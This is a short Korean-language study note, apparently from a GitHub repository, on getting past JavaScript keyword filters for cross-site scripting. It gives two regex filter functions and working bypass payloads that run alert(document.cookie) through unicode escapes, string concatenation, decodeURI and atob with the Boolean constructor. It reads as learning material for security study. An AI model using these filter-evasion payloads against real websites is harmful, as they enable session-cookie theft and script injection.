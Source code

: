 
1. "alert", "window", "document" 필터링

	`alert(document.cookie)` 실행

	**Filtering function**
    ```javascript
	function XSSFilter(data){
  		if(/alert|window|document/.test(data)){
    		return false;
  		}
  		return true;
	}
	```
    
    **Bypass**
    ```javascript
	// 1) 유니코드 이용
	\u0061lert(\u0064ocument.cookie);
               
	// 2) this 키워드로 window 객체 접근
	this['al'+'ert'](this['docu'+'ment']['coo'+'kie']);
	```

<br>

2. 주요 키워드와 특수문자 필터링 

	`alert(document.cookie)` 실행

	**Filtering function**
    ```javascript
	function XSSFilter(data){
     	if(/alert|window|document|eval|cookie|this|self|parent|top|opener|function|constructor|[\-+\\<>{}=]/i.test(data)){
          return false;
  		}
  		return true;
	}
	```
    
    **Bypass**
    ```javascript
	// 1) decodeURI 함수 이용
	Boolean[decodeURI('%63%6F%6E%73%74%72%75%63%74%6F%72')](
      decodeURI('%61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29'))();
               
	// 2) atob 함수 & constructor 속성 이용
	Boolean[atob('Y29uc3RydWN0b3I')](atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ'))();
	```
    
    - 1) URL Encoding은 하단의 사이트 참고
    	https://www.w3schools.com/tags/ref_urlencode.ASP
        https://onlineasciitools.com/url-encode-ascii
    - 2) Base64 값은 `btoa('string')` 함수 이용
    
    